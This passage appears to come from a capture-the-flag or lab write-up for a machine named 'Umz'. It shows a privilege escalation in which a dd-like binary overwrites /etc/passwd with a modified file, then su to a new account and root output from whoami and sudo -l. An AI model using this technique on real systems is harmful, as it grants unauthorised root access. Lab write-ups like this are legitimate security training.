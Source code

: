 ```bash
umzyyds@Umz:~$ ./Dashazi if=/tmp/passwd.modified of=/etc/passwd status=none
```
4. Finally
```bash
umzyyds@Umz:~$ su cyxteen
Password:
root@Umz:/home/umzyyds# whoami
root
root@Umz:/home/umzyyds# sudo -l
Matching Defaults entries for root on Umz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User root may run the following commands on Umz:
    (ALL : ALL) ALL
```
